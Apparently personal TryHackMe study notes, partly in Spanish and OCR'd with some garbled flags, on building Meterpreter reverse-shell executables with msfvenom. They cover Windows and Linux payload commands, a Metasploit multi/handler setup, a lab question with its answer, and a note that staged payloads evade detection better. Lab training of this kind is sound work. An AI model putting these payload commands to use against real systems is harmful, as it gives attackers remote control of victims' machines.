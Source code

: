 **WINDOWS**

msfvenom -P Windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST = <Inding-ip> LPORT = <Inding-Port>


```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=ip LPORT=443 -f exe -o reverse.exe
```

-F <Format>
Especifica el formato de salida. En este caso, eso es un ejecutable (exe)
-o <archivo>
La ubicación de salida y el nombre de archivo para la carga útil generada.
Lhost = <ip>
Especifica la IP para conectarse nuevamente. Al usar TryhackMe, esta será su dirección IP TUN0. Si no puede cargar el enlace, no está conectado a la VPN.
Lport = <port>



## Meterpreter

Type use exploit/multi/handler

// set PAYLOAD <payload>
set LHOST <ip_atacante>
set LPORT <pueto_atacante>



What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf  LHOST=10.10.10.5 LPORT=443






- Payload Non-Staged: Es un tipo de payload que se envía como una sola entidad y no se divide en múltiples etapas. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.
Es importante tener en cuenta que el tipo de payload utilizado en un ataque dependerá del objetivo y de las medidas de seguridad implementadas. En general, los payloads Staged son más difíciles de detectar y son preferidos por los atacantes, mientras que los payloads Non-Staged son más fáciles de implementar pero también son más fáciles de detectar.



```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp  --platform windows -a x64 LHOST=ip LPORT=443 -f exe -o reverse.exe
```
